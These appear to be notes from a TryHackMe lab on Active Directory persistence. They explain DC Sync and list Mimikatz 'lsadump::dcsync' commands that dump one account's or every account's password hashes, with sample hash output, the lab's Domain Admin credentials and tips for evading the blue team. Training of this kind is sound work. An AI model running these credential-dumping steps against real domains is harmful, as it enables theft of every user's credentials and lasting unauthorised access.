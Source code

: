 When discussing persistence techniques, you will use the privileged credentials to perform the persistence technique on your low-privileged credential set. Make a note of the following DA account:
- Username: `Administrator`
- Password: `tryhackmewouldnotguess1@`
- Domain: `ZA`

The first and least reliable persistence technique that we will discuss is credentials. Several of the lateral techniques discussed in previous rooms would have resulted in the attacker gaining access to credentials. When using the word credentials, it can mean a username and password pair, but in the context of AD, even the password hash is sufficient for authentication through pass-the-hash techniques.

## DC Sync
It is not sufficient to have a single domain controller per domain in large organisations. These domains are often used in multiple regional locations, and having a single DC would significantly delay any authentication services in AD. As such, these organisations make use of multiple DCs. The question then becomes, *how is it possible for you to authenticate using the same credentials in two different offices*?*

The answer to that question is *domain replication*. Each domain controller runs a process called the *Knowledge Consistency Checker (KCC)*. The *KCC* generates a replication topology for the AD forest and automatically connects to other domain controllers *through Remote Procedure Calls (RPC)* to synchronise information. 

This includes updated information such as the user's new password and new objects such as when a new user is created. This is why you usually have to *wait a couple of minutes before you authenticate after you have changed your password* since the *DC where the password change occurred could perhaps not be the same one as the one where you are authenticating to.*

The process of replication is called *DC Synchronisation*. It is not just the DCs that can initiate replication. Accounts such as those belonging to the Domain Admins groups can also do it for legitimate purposes such as creating a new domain controller.

A popular attack to perform is a *DC Sync attack*. If we have access to an account that has domain replication permissions, we can stage a DC Sync attack to harvest credentials from a DC.

**Not All Credentials Are Created Equal**
Before starting our DC Sync attack, let's first discuss what credentials we could potentially hunt for. While we should always look to dump privileged credentials such as those that are members of the Domain Admins group, *these are also the credentials that will be rotated* (a blue team term meaning to reset the account's password) first. As such, *if we only have privileged credentials, it is safe to say as soon as the blue team discovers us, they will rotate those accounts, and we can potentially lose our access.*

The goal then is to persist with near-privileged credentials. We don't always need the full keys to the kingdom; we just need enough keys to ensure we can still achieve goal execution and always make the blue team look over their shoulder. As such, we should attempt to persist through credentials such as the following:

- **Credentials that have local administrator rights on several machines.** Usually, organisations have a group or two with local admin rights on almost all computers. These groups are typically divided into one for workstations and one for servers. By harvesting the credentials of members of these groups, we would still have access to most of the computers in the estate.
-  **Service accounts that have delegation permissions.** With these accounts, we would be able to force golden and silver tickets to perform Kerberos delegation attacks.
-  **Accounts used for privileged AD services.** If we compromise accounts of privileged services such as Exchange, Windows Server Update Services (WSUS), or System Center Configuration Manager (SCCM), we could leverage AD exploitation to once again gain a privileged foothold.

When it comes to what credentials to dump and persist through, it is subject to many things. You will have to get creative in your thinking and take it on a case-by-case basis.

## DCSync All
We will be using Mimikatz to harvest credentials. SSH into THMWRK1 using the DA account and load Mimikatz; Let's start by performing a DC Sync of a single account, our own:

```markup
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /user:{Your low-privilege AD Username}

[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server 
[DC] 'aaron.jones' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : aaron.jones 

** SAM ACCOUNT **

SAM Username         : aaron.jones
Account Type         : 30000000 ( USER_OBJECT )    
User Account Control : 00000200 ( NORMAL_ACCOUNT ) 
Account expiration   :
Password last change : 4/25/2022 7:30:21 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-1429 
Object Relative ID   : 1429

Credentials:
  Hash NTLM: fbdcd5041c96ddbd82224270b57f11fc 
    ntlm- 0: fbdcd5041c96ddbd82224270b57f11fc 
    lm  - 0: 0fd2685aa18c78bd265d02bdec203b04 

[...]

* Primary:WDigest * 
    01  991d45386dd3561e0c5529d3605f96e6
    02  d5d6f25b233c87b289706d7b423f1145
[...]
```

This is great and all, but we want to DC sync every single account. To do this, we will have to enable logging on Mimikatz:
```
mimikatz # log {username}_dcdump.txt Using '{username}_dcdump.txt' for logfile: OK
```

Now, instead of specifying our account, we will use the `/all` flag:
```
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```

This will take a bit of time to complete. Once done, exit Mimikatz to finalise the dump find and then you can download the `<username>_dcdump.txt` file. You can use `cat <username>_dcdump.txt | grep "SAM Username"` to recover all the usernames and `cat <username>_dcdump.txt | grep "Hash NTLM"` for all hashes. We can now either perform an offline password cracking attack to recover the plain text credentials or simply perform a pass the hash attack with Mimikatz.


### Example
![](Pasted%20image%2020241119183433.png)
```
ssh za\\Administrator@thmwrk1.za.tryhackme.loc
```
![](Pasted%20image%2020241119182814.png)






